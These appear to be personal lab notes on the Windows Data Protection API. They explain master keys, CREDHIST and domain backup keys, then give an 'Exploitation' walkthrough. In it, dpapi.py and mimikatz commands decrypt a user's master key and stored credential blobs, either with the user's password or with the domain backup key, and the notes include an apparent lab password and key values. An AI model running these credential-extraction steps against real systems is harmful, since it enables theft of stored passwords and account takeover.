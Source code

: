 
# Windows Data Protection API

DPAPI (Data Protection Application Programming Interface) is a simple cryptographic application programming interface available as a built-in component in Windows 2000 and later versions of Microsoft Windows operating systems. 

- This API is meant to be the standard way to store encrypted data on a computer’s disk that is running a Windows operating system. 
- DPAPI provides an easy set of APIs to easily encrypt “CryptProtectData()” and decrypt “CryptUnprotectData()” opaque data “blobs” using keys tied to a specific user or the system.
- This allows applications to protect user data without having to worry about things such as key management. 
- DPAPI is used by many popular applications including Internet Explorer, Google Chrome and Skype to encrypt their passwords. 
- It is also used by Windows itself to store sensitive information such as Encrypting File System keys and WiFi Passwords (WEP and WPA)

# Master Key

A user's Master Key is a file which is used for encrypting and decrypting DPAPI blobs. Since the Master Key encrypts a user's sensitive data, the master key itself requires serious protection. 

- To protect the Master key, Microsoft used the User's password for encrypting and protecting the Master Key. 
- Every Master Key has a unique name (GUID). 
- Each DPAPI blob stores that unique identifier. 
- In other words, the Master Key’s GUID is the key's "link" to the DPAPI blob. 

#### **For User Profiles:**

```
C:\Users\<Username>\AppData\Roaming\Microsoft\Protect\<SID>\<GUID>
```

- `<SID>` = Security Identifier (e.g., `S-1-5-21-...`)
- `<GUID>` = Unique identifier for the Master Key (e.g., `{4B9F5A57-...}`)
#### **For SYSTEM (Machine-Wide DPAPI):**

```
C:\Windows\System32\Microsoft\Protect\<SID>\<GUID>
```
- Used for services/system processes (e.g., Wi-Fi passwords stored for "All Users").

![](./assets/Pasted%20image%2020250726140912.png)


# CREDHIST

The Master Key is dependent on the user’s password, we need to know the user's password. However, what happens if the user changes his password? Here comes the purpose of DPAPI Credential History (CREDHIST) which is used to store all previous user’s passwords. 

- This file is also encrypted with the user's current password and saved in a stack structure. 
- Whenever the operating system tries to decrypt a Master Key, it uses the user’s current password, to decrypt the first entry in the CREDHIST. 
- The decrypted CREDHIST entry (user's password) is then used to decrypt the required Master Key, and if it fails.
- it proceeds to decrypt the second entry in CREDHIST (older user password) and uses its output to try to decrypt the Master Key until the correct CREDHIST entry that successfully decrypts the Master Key is found.

![](./assets/Pasted%20image%2020250726140955.png)


# Domain Backup key
When DPAPI is used in an Active Directory domain environment, a copy of user’s master key is encrypted with a so-called DPAPI Domain Backup Key that is known to all domain controllers. 

- Windows Server 2000 DCs use a symmetric Backup key and newer systems use a public/private Backup key pair. 
- If the user password is reset or user forgets the password, the original master key is inaccessible to the user, the user’s access to the master key is automatically restored using the backup key.

In Domain Joined Systems, the master key is encrypted with user's password as well as the domain backup key.

# Exploitation

### Using User Password:

1. Locating and downloading jack's master key `C:\Users\Jack\AppData\Roaming\Microsoft\Protect\S-1-5-21-3452661742-3064033514-3733150770-1120\dddec067-bb39-4589-a594-618a26fcd241`

its giving this error `Error: Download failed. Check filenames or paths: uninitialized constant WinRM::FS::FileManager::EstandardError` but still the file gets downloaded

![](./assets/Pasted%20image%2020250727203747.png)


2. Decrypting jack's master key with his password

```
dpapi.py masterkey -file dddec067-bb39-4589-a594-618a26fcd241 -password 'partylikear0ckst*r' -sid S-1-5-21-3452661742-3064033514-3733150770-1120 
```

![](./assets/Pasted%20image%2020250727203848.png)

3. Enumerating and downloading DPAPI blobs of user jack 

![](./assets/Pasted%20image%2020250727204036.png)

4. Decrypting the BLOB

```
dpapi.py credential -key 0x8ef09cd6577395e0a1fee1c401cbbed5cea53e455258d1d0b932964f15f79584a6d4184e81ad75a6018a627234e8d5704baac4fee8f428d2442e1cf89f8a9a7e -file B5D7FE4D2E688792FEF49AB57F10608E
```

![](./assets/Pasted%20image%2020250727204518.png)

5. Decrypted, got a username and password )).

### Using Domain Backup key (without knowing jack's password)


1. Decrypting  jack's master key using the domain backup key by invoking **MS-BKRP** (BackupKey Remote Protocol) 

```
mimikatz # dpapi::masterkey /in:C:\Users\Jack\AppData\Roaming\Microsoft\Protect\S-1-5-21-3452661742-3064033514-3733150770-1120\dddec067-bb39-4589-a594-618a26fcd241 /rpc
```

![](./assets/Pasted%20image%2020250727205218.png)

2. We got jack's master key
3. Decrypting jack's dpapi blob

```
dpapi::cred /in:C:\Users\Jack\AppData\Roaming\Microsoft\Credentials\B5D7FE4D2E688792FEF49AB57F10608E -key 8ef09cd6577395e0a1fee1c401cbbed5cea53e455258d1d0b932964f15f79584a6d4184e81ad75a6018a627234e8d5704baac4fee8f428d2442e1cf89f8a9a7e
```

![](./assets/Pasted%20image%2020250727210005.png
)

4. blob decrypted, we got a username and password)).

